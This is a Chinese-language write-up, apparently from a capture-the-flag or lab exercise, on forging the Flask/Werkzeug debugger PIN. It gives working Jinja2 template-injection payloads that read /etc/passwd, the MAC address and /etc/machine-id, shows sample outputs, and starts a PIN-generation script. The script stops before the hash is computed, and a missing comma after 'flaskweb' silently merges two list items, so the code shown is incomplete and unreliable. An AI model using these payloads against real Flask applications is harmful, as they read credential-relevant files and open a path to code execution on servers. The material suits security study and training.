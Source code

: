 # flask的PIN伪造



>PIN是 `Werkzeug`（它是` Flask` 的依赖项之一）提供的额外安全措施，以防止在不知道 PIN 的情况下访问调试器。 **您可以使用浏览器中的调试器引脚来启动交互式调试器。**
>
>请注意，无论如何，您都不应该在生产环境中使用调试模式，因为错误的堆栈跟踪可能会揭示代码的多个方面。
>
>调试器 PIN 只是一个附加的安全层，以防您无意中在生产应用程序中打开调试模式，从而使攻击者难以访问调试器。
>
>`werkzeug`不同版本以及`python`不同版本都会影响PIN码的生成

如果需要伪造PIN码,需要:

- `username`, 读取`/etc/passwd`获得
- `modname`,默认值是`flask.app`
- `appname`,默认值是`Flask`
- 10进制的mac地址, 通过`/sys/class/net/eth0/address`获得十六进制格式,再转为10进制
- `machine_id` :读取文件`/etc/machine-id ` 或者 `/proc/sys/kernel/random/boot_id 3./proc/self/cgroup`
- `flask/app.py`的路径, 常见的有:`/usr/local/lib/python3.7/site-packages/flask/app.py`,通过报错等信息获得

**通过已知的SSTI来读取文件,获得上述信息:**

```
{% for x in ().__class__.__base__.__subclasses__() %}
{% if "warning" in x.__name__ %}
{{x.__init__.__globals__['__builtins__'].open('/etc/passwd').read() }}
{%endif%}
{%endfor%}
输出中找到了一个名为 flaskweb的可疑用户

{% for x in ().__class__.__base__.__subclasses__() %}
{% if "warning" in x.__name__ %}
{{x.__init__.__globals__['__builtins__'].open('/sys/class/net/eth0/address').read() }}
{%endif%}
{%endfor%}
输出mac地址56:08:f5:2f:90:51, 转为10进制:94596473262161

{% for x in ().__class__.__base__.__subclasses__() %}
{% if "warning" in x.__name__ %}
{{x.__init__.__globals__['__builtins__'].open('/etc/machine-id').read() }}
{%endif%}
{%endfor%}
machine-id: 1408f836b0ca514d796cbf8960e45fa1
```

运行脚本,生成pin:

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'flaskweb'  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.7/site-packages/flask/app.py'  # getattr(mod, '__file__', None),
]
private_bits = [
    '94596473262161',  # mac地址  str(uuid.getnode()),  /sys/class/net/ens33/address
    '1408f836b0ca514d796cbf8960e45fa1'  # get_machine_id(), /etc/machine-id
]
h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
```